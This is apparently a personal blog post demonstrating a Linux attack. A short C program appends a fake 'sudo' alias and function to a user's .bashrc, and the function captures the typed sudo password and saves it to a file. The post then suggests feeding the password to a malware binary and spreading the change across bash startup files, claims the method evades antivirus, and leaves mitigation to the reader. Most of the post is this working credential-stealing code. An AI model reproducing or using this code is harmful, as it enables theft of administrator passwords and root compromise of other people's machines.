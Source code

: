 ```yaml
---
title: Bash aliases can be dangerous! A demonstration
date: 2023-02-12 09:20:21
tags: cybersecurity, linux, bash
---
```

Consider the file `.bashrc`. Normally, it's permissions are set as thus:
```-rw-r--r-- 1 ghostdog ghostdog 913 Feb 12 07:55 .bashrc```
Decoding this, means:
Owner can write (so our default user)
Everyone else can only read

So what would happen if we ran a malicious application that affects our bashrc file?
Consider the following simple C program:
```c
#include <stdio.h> 


int main(int argc, char const *argv[])
{

	FILE *fp;
	char *filename = "/home/ghostdog/.bashrc";
	char* stealer = "alias sudo=\'fakesudo\'\nfunction fakesudo (){\n    read -sp \"[sudo] password for ${USER}: \" pass;\n    cat <<< $pass > yourpassword.txt; \n    out=`\\sudo -p \"\" -S <<< $pass $@` \n    printf \"\\n${out}\\n\"; \n}";


	fp = fopen(filename, "a");

	fprintf(fp, "%s\n", stealer);
	fclose(fp);

	return 0;
}
```

Which writes the following to our bashrc (commends added for clarity):
```bash
alias sudo='fakesudo'
function fakesudo (){
    read -sp "[sudo] password for ${USER}: " pass; # read our passwd
    #cat <<< $pass > yourpassword.txt; # Output our grabbed passwd to a file
    
    out=`\sudo -p "" -S <<< $pass $@` # here we use a backslash to avoid recursively calling our own function, and the <<< as a 'here' string for
                                # our grabbed passwd, as well as our function args using $@ to grab all of them
                                # we also add the `-p ""` option as to avoid giving the prompt twice, which would give us away
    


    printf "\n${out}\n"; # here we use printf to avoid dealing with echo's inconsistancy, and insert newlines to make the output look normal
}

```

When the victim runs ANY command that involves the standard util `sudo`, it will now record their password to the file `yourpassword.txt` in the current working directory. If desired, you could clearly do much more than just simply write the password, like passing this root level access to your malicious executable. E.g:
```bash
/bin/mymalware "--root-password=${pass}"
```
or similar. 

If we were being really nasty, we could even write the change to multiple bash startup files, as bash does not check the .bashrc file for non login shells. 
![Tables of what files bash checks on startup, archwiki](/images/bash_files.png)
###### Image credit: ArchWiki, Table colours added by user Alad on 16 Aug 2015, oldid=391339. Initial table also by Alad, oldid=335790. 

This method of exploitation, as far as i am aware, has not been exploited, despite wide access to the bashrc file being common for default installations (it would be interesting to see if openbsd fixed this years ago, which I heavily suspect to be the case). And while users *could* just use `\sudo` every single time, I doubt anybody is doing that!
The advantage of this method, over something like replacing a binary, is that it is using *expected and normal tools*, thus it is very unlikely to trip an anti-virus or set off any red flags should someone hash their binaries to check them. 

Mitigation of this is left as an exercise for the reader ;-)